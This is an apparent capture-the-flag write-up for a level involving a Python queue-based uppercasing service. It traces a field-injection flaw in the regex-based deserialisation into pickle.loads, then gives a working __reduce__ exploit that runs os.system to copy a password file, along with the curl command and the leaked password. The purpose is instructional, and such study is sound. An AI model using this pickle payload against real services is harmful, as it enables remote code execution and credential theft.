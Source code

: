 ## Level 5: validate input strictly enough

This is a quite realistic challenge:
the code is not trivial,
not badly written,
and it doesn't have too obvious mistakes.

What can we see easily?
The description tells us the program is an uppercasing service,
and we can use it like this:
```
$ curl localhost:8005 -d 'hello friend'
{
    "processing_time": 1.621246337890625e-05, 
    "queue_time": 0.2028050422668457, 
    "result": "HELLO FRIEND"
}
```

The description also mentions that the service is structured as a queue server and worker.
Sure enough,
in the `main` method we can see two modes of invocation,
using `worker` or `server` as the command line argument.

We could play with random invalid inputs,
but that won't really give anything interesting.
This time we really have to dig into the code.
Let's start by tracking down how the input is processed.

As we are sending the input using HTTP,
let's find the HTTP service implementation:
the `QueueHttpServer` class has two methods for handling GET and POST requests.
The `do_GET` method simply prints a help message and doesn't handle any inputs.
The `do_POST` method takes the POST data and passes it to a new `QueueServer` instance:
```
    def do_POST(self):
        length = int(self.headers.getheader('content-length'))
        post_data = self.rfile.read(length)
        raw_data = urllib.unquote(post_data)

        queue = QueueServer()
        job = Job()
        type, data, job = queue.run_job(data=raw_data, job=job)
        # ...
```
It passes the input to `QueueUtils.enqueue`:
```
class QueueServer(object):
    # Called in server
    def run_job(self, data, job):
        QueueUtils.enqueue('JOB', data, job)
        # ...
```
... which in turn passes it to `QueueUtils.serialize`:
```
    @staticmethod
    def enqueue(type, data, job):
        # ...
        serialized = QueueUtils.serialize(type, data, job)
        # ...
```
... where we can finally see something interesting:
```
    @staticmethod
    def serialize(direction, data, job):
        serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
        # ...
```
Remember that the `POST` data we send from `curl` is now in the `data` variable.
We can trace back that `type` can be either "JOB" or "RESULT",
`data` is whatever we send with `curl`,
and `job` is a `Job` object,
serialized to a string using the `pickle.dumps` call.
The result will look like this:
```
type: JOB; data: OUR_DATA; job: JOB_OBJ_AS_PICKLE
```

Is this safe?
What will happen if we send `x; job: hello` as the input?
```
type: JOB; data: x; job: hello; job: JOB_OBJ_AS_PICKLE
```
We don't know yet how this serialized string will be used later,
but having two `job:` segments there might be an interesting corner case.
Let's see what actually happens if we call the service with such input:
```
$ curl localhost:8005 -d 'x; job: hello'
{
    "result": "Job timed out"
}
```
That doesn't look too good.
Let's track down what happens to the serialized string.
Notice the `deserialize` method in `QueueUtils`:
```
    @staticmethod
    def deserialize(serialized):
        parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
        match = parser.match(serialized)
        direction = match.group(1)
        data = match.group(2)
        job = pickle.loads(match.group(3))
```
Look at the regular expression used when setting `parser`.
Since data is matched with the non-greedy pattern `.*?`,
using an input like `; job: EVIL_CODE`,
we can trick the program into matching `EVIL_CODE` as the content of `job`,
and run `pickle.loads` on it.

How can we exploit `pickle.loads`?
For that,
we need to dig into the documentation of pickle:
http://docs.python.org/library/pickle.html,
and in particular, the `__reduce__()` method:

> When the Pickler encounters an object of a type it knows nothing about,
it looks in two places for a hint of how to pickle it.
One alternative is for the object to implement a __reduce__() method.
If provided,
at pickling time __reduce__() will be called with no arguments,
and it must return either a string or a tuple.
>
> (...)
>
> When a tuple is returned,
it must be between two and five elements long.
(...)
The contents of this tuple are pickled as normal and used to reconstruct the object at unpickling time.
>
> The semantics of each element are:
>
> A callable object that will be called to create the initial version of the object.
The next element of the tuple will provide arguments for this callable,
and later elements provide additional state information that will subsequently be used to fully reconstruct the pickled data.

Based on this info,
we can create a class,
and implement the `__reduce__` method to have the following properties:

- Return a tuple.
- The first item in the tuple should be a callable.
- The second item should be a tuple of arguments for the callable.

But what should be the callable and its arguments?
Perhaps the Python equivalent of the shellcode we used in C programs?
For example,
`os.system` as the callable,
and a shell command as its argument:
```
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('cat /home/level05/.password > /tmp/p',))

print '; job: ' + pickle.dumps(Exploit())
```

Let's save this in a file,
say `exploit.py`,
run it, and save its output in a text file:
```
$ python exploit.py | tee pickle.txt
; job: cposix
system
p0
(S'cat /home/level05/.password > /tmp/p'
p1
tp2
Rp3
.
```
Our crafted input has the right prefix,
`; job: `.
Let's send this to the service:
```
$ curl localhost:8005 --data-urlencode @pickle.txt
{
    "result": "Job timed out"
}
$ cat /tmp/p
diebasuw
```

Bingo! The injected code was unpickled and executed,
copying the content of the password file to a place where we can see it.

## Lessons to learn

- Read the docs well:
  the documentation of pickle warns not to unpickle untrusted text,
  loud and clear.

- Make sure your input validation is strict enough.

